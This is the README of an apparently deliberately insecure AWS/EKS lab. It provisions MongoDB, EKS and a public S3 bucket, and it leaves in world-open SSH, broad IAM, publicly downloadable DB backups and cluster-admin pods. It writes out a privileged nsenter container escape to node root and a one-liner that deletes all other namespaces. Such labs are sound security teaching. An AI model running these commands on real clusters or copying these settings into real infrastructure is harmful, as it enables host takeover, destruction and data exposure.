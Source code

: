 # aws-tasky
This repo will build all required AWS Networking and resources to run a 3 tiered MongoDB app.  This includes EC2, EKS, S3, Route53, and AWS Config.

## Pre Reqs
- Setup shell with AWS credentials
- AWS Key Pair
- Terraform 1.3.7+
- aws cli
- kubectl
- helm
- curl
- jq

## Getting Started
```
cd quickstart/infra
```
Update the `my.auto.tfvars` for your environment.  Configure your existing AWS Key Pair or copy a local SSH key to your region using this script `./scripts/push-aws-sshkey-multiregion.sh`. Review the prefix being used for resource names, the EKS version, private zone name for route53, and external  CIDR for SSH access. 

### Provision Infrastructure
Use terraform to build the required AWS Infrastructure
```
terraform init
terraform apply -auto-approve
```
All AWS resources will be provisioned and configured to support the tasky application.

### Resource Overview
While the infrastructure is being provisioned review the resources that are being created.

#### Tasky Image
* [Dockerfile](https://github.com/ppresto/aws-tasky/blob/main/docker/Dockerfile.chainguard-static)

#### AWS VPC
* [Configuration](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/locals-usw2.tf#L17)
* [terraform-aws-modules/vpc/aws](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf)
#### AWS EC2
* [Configuration](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L54)
* [IAM Profile](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2_iam_profile/iam-profile.tf)
    * Actions: "ec2:*","s3:GetObject","s3:PutObject","s3:PutObjectAcl","s3:DeleteObject","s3:ListBucket"
#### AWS Security Groups
  * [EC2](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2/main.tf#L30)
    * Ingress: Allow "0.0.0.0/0" -> TCP 22
    * Egress:  Allow "0.0.0.0/0: -> Any Protocol, Any Port
  * [MongoDB](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2_sg_mongod/main.tf#L12)
    * Ingress: Allow "10.15.0.0/20" -> TCP 27017
#### AWS Route53
* [mongoDB record](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L82)

#### AWS S3
* [Public bucket](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L115)

#### Mongo DB
* [DB build script](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2/templates/mongo.sh)
Its recommended to shift left to the Infrastructure pipeline and use Packer to build the mongodb image.  Leverage your standard secrets mgmt solution to configure DB access to avoid leaking sensitive data in the process.  This image was created using Terraform's user_data to keep everything simple and using a single tool.

#### AWS EKS Cluster 1.29
* [Configuration](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L129)
* [terraform-aws-modules/eks/aws](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_eks_cluster_alb/main.tf#L9)

#### AWS Loadbalancer controller
* [AWS LB controller](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_eks_cluster_alb/aws_alb_controller.tf) 
This was installed as a best pratice to support internal NLB or ALBs to EKS services.  The required pulic subnet tags were added as part of the VPC creation to enable the ALB to discover EKS services in the private subnets.


## Connect to EKS clusters
Connect to EKS using `scripts/kubectl_connect_eks.sh`.  Pass this script the path to the terraform state file used to provision the EKS cluster.  If cwd is ./infra like above then this command would look like the following:
```
source ../../scripts/kubectl_connect_eks.sh .
kubectl -n tasky get po
```
This script connects EKS and builds some useful aliases shown in the output.

## Get Ingress URL
Use this URL to access the Tasky application.  Login to verify Tasky is healthy and create tasks.
```
make getIngress

Tasky URL - http://tasky-ingress-1379807902.us-west-2.elb.amazonaws.com
```
FYI: The Makefile can also be used to see pre and post security scans, build infra, and clean up the project.

## Tasky Application
Is the application running with cluster-admin privileges?

The tasky pod should be running a second container `network-multitool`.  To see if containers have cluster-admin privilages connect to the sidecar, install `kubectl`, and use it to **escape into the Working Node as root!**
```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod 755 kubectl
```

Escape into the Node with kubectl
```
./kubectl run r00t --restart=Never -ti --rm --image tasky --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```
## SSH to MongoDB
Get the public IP of the EC2 instance running Mongo DB
```
IP=$(terraform output -json | jq -r '.usw2_ec2_ip.value."usw2-shared-ext-mongodb"')
```

SSH to the Ubuntu EC2 instance.  
```
ssh ubuntu@${IP}
```
This will use the AWS key that was defined in `my.auto.tfvars`

## Mongo DB Backups to S3
Verify the backups are going to S3, they are public, and can be downloaded.  Start by going to the S3 URL in your browser.
```
terraform output bucket_url
```
You should see a list of .tar.gz file.  These are the DB backups happening every 5 minutes.  Copy one of the file names and add `/<filename> to the URL above.  This should download the file.

## Next Steps

## Notes
Delete other namespaces to show you have cluster-admin privileges
```
./kubectl get ns --no-headers=true | sed "/kube-*/d" | sed "/default/d" | sed "/tasky/d" | awk '{print $1;}' | xargs ./kubectl delete ns
```

## References
[OWASP Cheatsheets](https://cheatsheetseries.owasp.org/index.html)
[OWASP Cheatsheets Repo](https://github.com/OWASP/CheatSheetSeries)
[2023 OSS Security Report](https://go.snyk.io/state-of-open-source-security-report-2023-dwn-typ.html)
[HackTricksCloud](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/abusing-roles-clusterroles-in-kubernetes)